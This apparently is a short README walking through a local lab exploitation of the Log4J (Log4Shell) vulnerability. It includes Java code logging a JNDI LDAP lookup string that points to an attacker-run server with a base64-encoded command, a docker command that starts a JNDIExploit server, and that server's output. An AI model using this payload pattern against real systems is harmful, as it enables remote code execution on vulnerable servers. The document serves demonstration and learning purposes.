


# Introduction

Log4J is popular topic recently - Most of the apps are vulnerable for Log4J vulnerability. 

Below is my experiment locally exploiting the Log4J vulnerability.

## Vulnerable Code

Reference - https://www.lunasec.io/docs/blog/log4j-zero-day/

```
package com.mycompany.app;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * Hello world!
 *
 */
public class App 
{
    static Logger log = LogManager.getLogger(App.class.getName());
        public static void main( String[] args )
    {
        String username = args[0];
        System.out.println( "Hello World....!" );
        log.error("Hello: " + username);
        log.error("X-Api-Verson: ${jndi:ldap://192.168.1.251:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}");
    }
}
```

Compile the vulnerable code and get it ready to execute

## Run the exploitable code using below docker command

```
docker run --name jndi -p 8080:8080 -p 1389:1389 -e IP=192.168.1.251 mormoroth/jndiexploit:v1
```
Change the IP address to your local IP address... Something like below on MAC
`ifconfig | grep -b4 en0`

LDAP and HTTP server started by exploitable code
```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
```

## Execute

Compile and execute the vuln. code . JNDI Params call the exploitable code which in turn send the Remote code execution




